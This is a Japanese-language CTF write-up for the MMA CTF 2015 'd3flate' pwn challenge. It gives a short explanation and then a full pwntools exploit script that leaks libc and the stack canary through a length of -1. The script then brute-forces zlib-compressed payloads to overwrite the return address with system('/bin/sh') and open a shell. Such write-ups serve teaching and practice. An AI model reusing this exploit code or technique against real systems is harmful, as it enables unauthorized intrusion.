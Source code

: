 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2015/mma-ctf-2015-d3flate/
  - /blog/2016/09/09/mma-ctf-2015-d3flate/
date: "2016-09-09T15:08:55+09:00"
tags: [ "ctf", "writeup", "mmactf", "pwn", "zlib", "canary" ]
"target_url": [ "https://github.com/ctfs/write-ups-2015/tree/master/mma-ctf-2015/pwn/d3flate-500" ]
---
```


# MMA CTF 2015: d3flate

解けないからwriteupを見たが、writeupにあった実装ではどれもzlibの計算が停止する気配がなかった。追加で頑張った。

## solution

全体の流れは単純。

1.  proof-of-workを解く
2.  長さに$-1$を指定してlibc baseとcanaryをleak
3.  以下を繰り返す
    1.   平文を送る
    2.   そのzlib圧縮結果のbofでstackを書き換える
4.  `Bye`と送って発火

proof-of-workは単純にやるしかない。
運が悪いとけっこうかかる。

stackのleakに関して。
長さに$-1$を指定すると、標準入力からの読み込みは実際には行われないが$255$文字読まれた扱いになる。
ここで、proof-of-workの際の関数によるcanary等が`$esp`より低位側に残されているので、これが読める。
proof-of-workが邪魔だからとbinaryを書き換えてnopで埋めていると、canaryが見つからずどうにもならなくなるので注意。

stackへの書き込みは、文字列`s`を送ると`zlib.compress(s)`が書き込まれる。
canaryやreturn先address等が書き変わるが、当然書き込む値は自由にはならない。
これは探索をする。平文となる`s`を`zlib.compress(s)`が要件を満たすまで生成し続ければよい。
乱数を突っ込めば圧縮できずにそのまま出てくるが、そのようなものは禁止されているので使えない。
ただし最低でも$12$byte (canary + system + `/bin/sh`)を書き込む必要があり、一括で書き込むのは難しい。
$1$byteずつ後ろから書き込むとよい。

## implementation

``` python
#!/usr/bin/env python2
import os
import time
import random
import zlib
import itertools
import hashlib
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

p = process('./d3flate')

salt = p.recvline().split('"')[1] # Send me a proof-of-work sha1("XXXXXXXX" || stripLF(sent)) = 123456xxx...
for witness in itertools.count():
    if witness % 100000 == 0:
        log.debug('witness: %d', witness)
    if hashlib.sha1(salt + str(witness)).hexdigest().startswith('123456'):
        break
p.sendline(str(witness))
p.recvline()

p.sendline('-1')
s = p.recv(int(p.recvline()))
s = zlib.decompress(s)
log.info('zlib decompressed:\n' + fiddling.hexdump(s))

libc = ELF('/lib/i386-linux-gnu/libc.so.6') # for my local environment
libc_base = u32(s[0xbc:][:4]) - (libc.symbols['fflush'] + 11)
canary = u32(s[0xc0:][:4])
log.info('libc base: %#x', libc_base)
log.info('canary: %#x', canary)
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search('/bin/sh\0'))
log.info('system  address: %#x', system)
log.info('/bin/sh address: %#x', binsh)

for base, value in [ (0x98, binsh), (0x90, system), (0x80, canary) ]:
    for offset, char in reversed(list(enumerate(p32(value)))):
        for i in itertools.count():
            s = chr(random.randint(0, 255)) * random.randint(30, 40) + os.urandom(base + offset + random.randint(- 10, 20))
            s = s[: 0x80] + '\x78\x9c' + s[0x82 :]
            s = zlib.compress(s)
            s = s[: base + offset + random.randint(-4, 4)] + char
            payload = ''
            z = zlib.decompressobj()
            while s:
                try:
                    payload += z.decompress(s, 1)
                    s = z.unconsumed_tail
                except zlib.error:
                    break
            s = zlib.compress(payload)
            if not s[base + offset :] == char:
                log.debug('trial %d: wrong value: %s != %s', i, repr(s[base + offset :]), repr(char))
                continue
            if not len(s) <= len(payload):
                log.debug('trial %d: wrong length: %d > %d', i, len(s), len(payload))
                continue
            if not len(payload) <= 255:
                log.debug('trial %d: too long payload: 255 < %d', i, len(payload))
                continue
            break
        log.info('payload:\n' + fiddling.hexdump(payload))
        log.info('zlib compressed:\n' + fiddling.hexdump(s))
        p.sendline(str(len(payload) - 256))
        p.sendline(payload)
        s = p.recv(int(p.recvline()))
        log.debug('zlib decompressed: %s\n' + fiddling.hexdump(zlib.decompress(s)))
        assert zlib.decompress(s) == payload
        assert s == zlib.compress(payload)

p.sendline('3')
p.sendline('Bye')

time.sleep(1)
p.sendline('id')
p.interactive()
```
